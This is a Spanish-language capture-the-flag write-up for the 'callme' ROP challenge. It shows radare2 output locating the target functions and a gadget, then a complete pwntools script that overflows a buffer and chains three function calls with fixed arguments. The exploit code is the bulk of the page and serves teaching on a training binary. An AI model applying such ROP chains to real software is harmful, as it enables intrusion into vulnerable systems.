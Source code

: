 # callme

> Chain calls to multiple imported methods with specific arguments and see how the differences between 64 & 32 bit calling conventions affect your ROP chain.
---

### Analizar el binario

Para poder resolver este reto hay que leer las instrucciones, se deben llamar a las funciones callme_one callme_two y callme_three con 3 argumentos concretos en un orden concreto.

Lo primero es localizar las funciones:

```
$ r2 -AAA -qc "afl" callme
...
0x004006f0    1 6            sym.imp.callme_three
0x00400740    1 6            sym.imp.callme_two
0x00400720    1 6            sym.imp.callme_one
...
```

Después encontrar los gadgets adecuados, en este caso vale con uno solo afortunadamente:

```
$ r2 -AAA -qc "/R" callme
...
0x0040093c                 5f  pop rdi
0x0040093d                 5e  pop rsi
0x0040093e                 5a  pop rdx
0x0040093f                 c3  ret
...
```

Como siempre calculo el offset y como siempre es de 32 bytes.

### Escribir el exploit

**exploit.py**

```python
#!/usr/bin/python3
from pwn import *

elf = "./callme"
p = process(elf)
ELF(elf)

def jmp_with_args(addr):
    payload = p64(0x0040093c) # pop rdi ; pop rsi ; pop rdx ; ret
    payload += p64(0xdeadbeefdeadbeef) # RDI
    payload += p64(0xcafebabecafebabe) # RSI
    payload += p64(0xd00df00dd00df00d) # RDX
    payload += p64(addr) # RIP

    return payload

offset = b'A'*32
RBP = b'B'*8

payload = offset + RBP
payload += jmp_with_args(0x00400720) # callme_one
payload += jmp_with_args(0x00400740) # callme_two
payload += jmp_with_args(0x004006f0) # callme_three

p.sendline(payload)
```